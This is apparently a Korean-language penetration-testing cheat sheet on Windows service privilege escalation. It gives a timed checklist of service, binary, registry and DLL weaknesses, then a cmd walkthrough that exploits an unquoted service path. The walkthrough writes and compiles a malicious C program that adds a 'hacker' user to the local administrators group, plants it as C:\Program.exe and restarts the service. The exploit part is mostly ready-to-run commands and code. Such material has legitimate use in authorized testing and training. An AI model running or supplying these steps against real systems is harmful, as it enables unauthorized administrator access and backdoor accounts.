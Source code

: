 ## 📋 단계별 체크리스트

### Phase 1: 서비스 발견 및 분류 (2분)

- [ ] **Unquoted Service Path**: 공백이 포함된 경로에 따옴표 없는 서비스
- [ ] **Service Permissions**: 서비스 설정을 수정할 수 있는 권한
- [ ] **Binary Permissions**: 서비스 실행 파일을 수정할 수 있는 권한
- [ ] **Service Registry**: 서비스 레지스트리 키 수정 권한
- [ ] **DLL Hijacking**: 서비스가 로드하는 DLL 하이재킹 가능성

### Phase 2: 권한 분석 (3분)

- [ ] **Write 권한**: 서비스나 실행 파일에 쓰기 권한 확인
- [ ] **Modify 권한**: 서비스 설정 변경 권한 확인
- [ ] **Full Control**: 서비스에 대한 완전한 제어 권한
- [ ] **Registry 권한**: 서비스 레지스트리 키 접근 권한
- [ ] **Directory 권한**: 서비스 실행 파일 디렉토리 권한

### Phase 3: 익스플로잇 가능성 확인 (2분)

- [ ] **Restart 권한**: 서비스를 재시작할 수 있는지 확인
- [ ] **Start/Stop 권한**: 서비스 제어 권한 확인
- [ ] **파일 교체 가능**: 실행 파일이나 DLL 교체 가능한지
- [ ] **경로 주입 가능**: Unquoted path에서 악성 실행 파일 주입
- [ ] **권한 상승 후 실행**: 서비스가 SYSTEM 권한으로 실행되는지

## 🎯 발견별 즉시 익스플로잇

### 🚨 Unquoted Service Path 익스플로잇

```cmd
:: 1. 취약한 서비스 확인 (예: C:\Program Files\Some Service\service.exe)
sc qc VulnerableService

:: 2. 경로 분석 - 주입 가능한 위치 확인
:: C:\Program Files\Some Service\service.exe
:: 시도 순서: C:\Program.exe -> C:\Program Files\Some.exe

:: 3. 디렉토리 쓰기 권한 확인
icacls "C:\"
icacls "C:\Program Files\"

:: 4. 악성 실행 파일 생성 (C로 컴파일)
echo #include ^<windows.h^> > evil.c
echo #include ^<stdio.h^> >> evil.c
echo int main() { >> evil.c
echo     system("net user hacker password123 /add"); >> evil.c
echo     system("net localgroup administrators hacker /add"); >> evil.c
echo     return 0; >> evil.c
echo } >> evil.c

:: 5. 컴파일 (gcc 있는 경우)
gcc evil.c -o Program.exe

:: 6. 파일 배치
copy Program.exe "C:\Program.exe"

:: 7. 서비스 재시작
sc stop VulnerableService
sc start VulnerableService

:: 또는 시스템 재부팅 기다리기
```